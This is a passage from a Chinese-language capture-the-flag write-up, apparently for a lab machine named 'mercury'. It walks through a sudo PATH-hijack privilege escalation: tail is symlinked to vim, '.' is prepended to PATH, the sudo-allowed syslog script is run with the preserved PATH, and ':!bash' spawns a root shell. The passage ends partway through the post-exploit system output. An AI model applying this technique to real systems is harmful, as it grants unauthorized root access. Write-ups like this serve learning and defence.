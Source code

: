   ```
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User linuxmaster may run the following commands on mercury:
      (root : root) SETENV: /usr/bin/check_syslog.sh
  ```

- 查看文件内容--> 使用tail动态显示10行系统日志。

- ```shell
  linuxmaster@mercury:~$ sudo -l
  [sudo] password for linuxmaster: 
  Matching Defaults entries for linuxmaster on mercury:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User linuxmaster may run the following commands on mercury:
      (root : root) SETENV: /usr/bin/check_syslog.sh
  linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
  #!/bin/bash
  tail -n 10 /var/log/syslog
  
  ```

- 使用软连接将`vi`或者`vim`链接到tail，再将当前路径添加到环境变量中，这一步的操作是为了让用户在执行命令时，优先使用当前路径下的同名文件。`ln -s /bin/vim tail`

- ```shell
  linuxmaster@mercury:~$ ls -lhai
  total 28K
  162165 drwx------ 3 linuxmaster linuxmaster 4.0K Aug 20 05:34 .
      18 drwxr-xr-x 5 root        root        4.0K Aug 28  2020 ..
  165762 lrwxrwxrwx 1 linuxmaster linuxmaster    9 Sep  1  2020 .bash_history -> /dev/null
  165896 -rw-r--r-- 1 linuxmaster linuxmaster  220 Aug 28  2020 .bash_logout
  162221 -rw-r--r-- 1 linuxmaster linuxmaster 3.7K Aug 28  2020 .bashrc
  165920 drwx------ 2 linuxmaster linuxmaster 4.0K Aug 28  2020 .cache
  166244 -rw-r--r-- 1 linuxmaster linuxmaster  807 Aug 28  2020 .profile
  162227 lrwxrwxrwx 1 linuxmaster linuxmaster    8 Aug 20 05:31 tail -> /bin/vim
  162263 -rw------- 1 linuxmaster linuxmaster 1.2K Aug 20 05:34 .viminfo
  linuxmaster@mercury:~$ echo $PATH
  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
  linuxmaster@mercury:~$ export PATH=.:$PATH
  linuxmaster@mercury:~$ echo $PATH
  .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
  linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
  ```

- 进入`vi or vim`界面后使用`:!bash`启动一个新的终端即可完成提权

- ```shell
  linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
  2 files to edit
  
  root@mercury:/home/linuxmaster# uname -a
  Linux mercury 5.4.0-45-generic #49-Ubuntu SMP Wed Aug 26 13:38:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
  root@mercury:/home/linuxmaster# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 08:00:27:1e:20:e4 brd ff:ff:ff:ff:ff:ff
      inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic enp0s3